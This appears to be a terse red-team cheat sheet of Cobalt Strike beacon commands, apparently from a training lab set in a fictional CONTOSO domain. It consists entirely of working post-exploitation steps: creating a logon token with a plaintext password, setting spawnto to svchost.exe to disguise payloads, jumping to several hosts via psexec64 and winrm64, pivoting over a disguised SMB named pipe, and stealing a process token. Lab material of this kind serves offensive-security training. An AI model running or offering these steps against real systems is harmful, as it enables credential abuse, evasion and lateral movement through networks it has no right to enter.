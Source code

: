 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump psexec64 DUB-WEB-1 smb

jump psexec64 DUB-WKSTN-2 smb

jump winrm64 DUB-WEB-1 smb

jump psexec64 DUB-SQL-1 smb

jump psexec64 enc-fs-1.contoso.enclave smb
```

---

```powershell
link smb 192.168.110.52 dotnet-diagnostic-1337
```

```powershell
token-store steal 3184
token-store use 0 
```